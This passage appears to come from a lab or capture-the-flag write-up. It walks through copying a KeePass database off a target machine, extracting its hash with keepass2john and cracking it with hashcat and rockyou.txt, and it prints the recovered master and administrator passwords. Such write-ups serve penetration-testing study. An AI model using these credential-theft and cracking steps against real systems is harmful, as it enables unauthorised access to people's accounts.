 ```bash
cp C:\Users\kohsuke\Documents\CEH.kdbx .
```
The file is copied to the attacker machine successfully.
![](images/2025-02-09_8.png)

### 4.3 Cracking the KeePass Database

1. **Extract Hash:** I used `keepass2john` to extract the crackable hash from the database.

After running `keepass2john` on **CEH.kdbx**, Extracted the hash and successfully cracked it using `hashcat`. The recovered password, `moonshine1`, was then used to access the KeePass database by running:
```bash
keepass2john CEH.kdbx > keepass.hash
```
2. **Crack the Password:** I used `hashcat` with the `rockyou.txt` wordlist to crack the password.
   ```bash
       hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt
   ```
3. **Password Found:** The password was successfully cracked: `moonshine1`.
    
4. **Access Database:** I opened the database in KeePass using the password `moonshine1` and discovered the administrator password: `S1TjAtJHKsugh9oC4VZl`.  
